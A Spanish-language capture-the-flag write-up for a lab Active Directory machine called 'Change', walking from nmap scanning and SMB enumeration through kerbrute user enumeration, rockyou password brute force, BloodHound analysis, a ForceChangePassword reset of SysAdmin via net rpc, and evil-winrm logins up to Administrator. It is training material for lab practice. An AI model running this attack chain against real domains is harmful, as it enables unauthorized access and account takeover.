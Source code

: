 ```yaml
---
description: '🔍 Dificultad: Media'
---
```


# Change

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.54
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-20 173556.png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.54
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-20 173942.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo, se identificaron múltiples puertos abiertos relacionados con **servicios típicos de Active Directory en un entorno Windows Server**. A continuación, se detalla cada uno:

| Puerto          | Servicio                 | Descripción                                                                   | Relevancia en Pentesting                                                        |
| --------------- | ------------------------ | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **53**          | DNS (Simple DNS Plus)    | Servicio de resolución de nombres. Fundamental para la operación del dominio. | Enumeración de zonas, DNS spoofing, análisis de transferencias (`dig axfr`).    |
| **88**          | Kerberos                 | Protocolo de autenticación utilizado por AD.                                  | Objetivo de ataques como Kerberoasting, Pass-the-Ticket, Golden Ticket.         |
| **135**         | MS RPC                   | Microsoft RPC endpoint mapper.                                                | Comunicación entre servicios. Puede facilitar enumeración vía `rpcclient`.      |
| **139**         | NetBIOS-SSN              | Servicio para compartir archivos e impresoras (NetBIOS).                      | Usado con `smbclient`, `enum4linux-ng`, `smbmap`.                               |
| **389**         | LDAP                     | Protocolo para acceder al directorio (modo sin cifrar).                       | Enumeración de usuarios, grupos, SPNs, flags UAC. Clave en enumeración AD.      |
| **445**         | SMB (Microsoft-DS)       | Compartición de archivos en Windows.                                          | Dump de hashes, movimiento lateral (SMBexec, Psexec), enumeración sin creds.    |
| **464**         | kpasswd5                 | Servicio para cambio de contraseñas vía Kerberos.                             | Interesante para ataques como _krbrelayx_ o abuso de cuentas.                   |
| **593**         | RPC over HTTP            | Comunicación RPC encapsulada en HTTP.                                         | Utilizado por Exchange, Outlook y otras apps. A veces base de ataques internos. |
| **636**         | LDAPS (tcpwrapped)       | LDAP sobre SSL/TLS.                                                           | Enumeración segura del directorio, aunque a menudo filtrado o cifrado.          |
| **3268**        | Global Catalog (LDAP)    | Puerto usado para consultas a todo el bosque AD.                              | Ideal para enumerar objetos de todo el dominio.                                 |
| **3269**        | GC over SSL (tcpwrapped) | Versión segura del Global Catalog.                                            | Misma funcionalidad que el 3268, pero cifrado.                                  |
| **5985**        | WinRM (HTTP)             | Windows Remote Management.                                                    | Punto de entrada para `evil-winrm`. Fundamental para ejecución remota.          |
| **9389**        | .NET Message Framing     | Servicio para autenticación de AD Web Services (ADWS).                        | Utilizado por PowerShell Remoting, BloodHound, etc.                             |
| **47001**       | HTTPAPI                  | Servicio adicional HTTP, generalmente WinRM.                                  | Usado por PowerShell Remoting.                                                  |
| **49664–49714** | MS RPC dinámicos         | Puertos de comunicación RPC asignados dinámicamente.                          | Relevantes para movimiento lateral, enumeración y abuso de servicios remotos.   |

### 🔎 **EXPLORACIÓN**

Tras el escaneo, hacemos una enumeración **SMB**.

```
nxc smb 192.168.1.54
```

<figure><img src="../../.gitbook/assets/image (1640).png" alt=""><figcaption></figcaption></figure>

Tenemos un dominio que añadimos al fichero `/etc/hosts`. Miramos los recursos compartidos.

```
nxc smb 192.168.1.54 --shares -u '' -p ''
```

<figure><img src="../../.gitbook/assets/image (1641).png" alt=""><figcaption></figcaption></figure>

```
smbmap --no-banner -H 192.168.1.54 -u '' -p ''
```

<figure><img src="../../.gitbook/assets/image (1642).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Tras no encontrar nada, intentamos sacar usuarios a través del dominio.

```
./kerbrute userenum -d megachange.nyx --dc 192.168.1.54 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

<figure><img src="../../.gitbook/assets/image (1643).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta al usuario **alfredo**.

```
nxc smb 192.168.1.54 -u 'alfredo' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

<figure><img src="../../.gitbook/assets/image (1644).png" alt=""><figcaption></figcaption></figure>

A través de **Bloodhound** investigamos el dominio.

```
bloodhound-python -u 'alfredo' -p 'Password1' -ns 192.168.1.54 -d megachange.nyx -c All --zip
```

Subimos el Zip y analizamos.

<figure><img src="../../.gitbook/assets/image (1645).png" alt=""><figcaption></figcaption></figure>

**Alfredo** tiene capacidad de **ForceChangePassword** sobre **SysAdmin**. Significa que puede usar **net** para cambiar la contraseña del usuario **SysAdmin**.

```
net rpc password sysadmin 'Hola123' -U "megachange.nyx/alfredo%Password1" -S 192.168.1.54
```

Validamos el cambio por **SMB**.

```
netexec smb 192.168.1.54 -u 'sysadmin' -p 'Hola123'
```

<figure><img src="../../.gitbook/assets/image (1646).png" alt=""><figcaption></figcaption></figure>

Validamos el cambio por **WINRM**.

```
netexec winrm 192.168.1.54 -u 'sysadmin' -p 'Hola123'
```

<figure><img src="../../.gitbook/assets/image (1647).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso nos conectamos.

```
evil-winrm -i 192.168.1.54 -u 'sysadmin' -p 'Hola123'
```

<figure><img src="../../.gitbook/assets/image (1648).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

<figure><img src="../../.gitbook/assets/image (1649).png" alt=""><figcaption></figcaption></figure>

Subimos **winPEASx64.exe** y ejecutamo&#x73;**.**

{% @github-files/github-code-block url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}

<figure><img src="../../.gitbook/assets/image (1650).png" alt=""><figcaption></figcaption></figure>

Habiendo obtenido estas credenciales las validamos como anteriormente.

```
netexec smb 192.168.1.54 -u 'administrator' -p 'd0m@in_c0ntr0ll3r'
netexec winrm 192.168.1.54 -u 'administrator' -p 'd0m@in_c0ntr0ll3r'
```

<figure><img src="../../.gitbook/assets/image (1651).png" alt=""><figcaption></figcaption></figure>

Esto significa que nos podemos conectar como **Administrator**.

```
evil-winrm -i 192.168.1.54 -u 'administrator' -p 'd0m@in_c0ntr0ll3r'
```

<figure><img src="../../.gitbook/assets/image (1652).png" alt=""><figcaption></figcaption></figure>

Ya podemos obtener las **flags**.

<figure><img src="../../.gitbook/assets/image (1653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1654).png" alt=""><figcaption></figcaption></figure>
